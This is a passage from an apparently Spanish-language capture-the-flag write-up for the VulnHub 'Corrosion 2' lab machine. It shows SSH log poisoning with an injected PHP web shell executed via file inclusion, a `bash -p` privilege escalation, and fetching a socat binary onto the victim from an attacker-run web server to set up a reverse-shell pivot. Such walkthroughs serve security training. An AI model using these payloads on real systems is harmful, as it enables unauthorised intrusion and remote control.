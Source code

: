 ```java
Jan 20 16:51:49 corrosion sshd[1607]: Failed password for invalid user www-data
 from 192.168.210.128 port 41466 ssh2
Jan 20 16:51:49 corrosion sshd[1607]: Connection closed by invalid user www-data
```
Comprobado la inyeccion de comandos, enviamos una inyección mediante parametro `cmd` y escapando el signo `$`, para evitar errores.
```java     
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/nmap]
└─# proxychains ssh "<?php system(\$_GET['cmd']); ?>"@192.168.210.129
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.210.129:22  ...  OK
<?php system($_GET['cmd']); ?>@192.168.210.129's password: 
Permission denied, please try again.
```
Para verificar al inyección hacemos una petición del comando cms inyectado. `randylogs.php?file=/var/log/auth.log&cmd=ls`
```java
view-source:http://192.168.210.129/blog-post/archives/randylogs.php?file=/var/log/auth.log&cmd=ls
Jan 20 17:17:03 corrosion sshd[1491]: Invalid user randylogs.php
```
Una vez validado que existe conexion volvemos a generar una conexion ssh a la equipo corrosion 2 con el usuario randy para hacer y elevamos privilegios usando bash
```java
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/content]
└─# ssh randy@192.168.200.151 
randy@192.168.200.151's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.11.0-34-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
413 updates can be applied immediately.
304 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable
New release '22.04.1 LTS' available.
Run 'do-release-upgrade' to upgrade to it.
Last login: Fri Jan 20 17:35:36 2023 from 192.168.200.147
-bash-5.0$ bash -p
bash-5.0# 
```
Considerando que no hay comunicación directa, debemos establecer un reenvío de comunicaciones desde el equipo corrosion1 al corrosion2 y de ahi al equipo atacante, para generar una shell reversa del equipo corrosion 1 al equipo atacante, utilizaremos [socats](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)
```java
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/content]
└─# wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
--2023-01-20 19:47:35--  https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
Resolviendo github.com (github.com)... 140.82.112.4
Conectando con github.com (github.com)[140.82.112.4]:443... conectado.
Petición HTTP enviada, esperando respuesta... 302 Found
```
Una vez descargado se lo puede importar a la maquina corrosion 2 utilizando un servidor web y descagando con wget, cabe recalcar que se debe establecer permisos de ejecución.
```java
bash-5.0# wget http://192.168.200.147:8888/socat
--2023-01-20 17:57:24--  http://192.168.200.147:8888/socat
Connecting to 192.168.200.147:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 375176 (366K) [application/octet-stream]
Saving to: ‘socat’
socat   100%[====================================================================================================>] 366.38K  --.-KB/s    in 0.006s  
```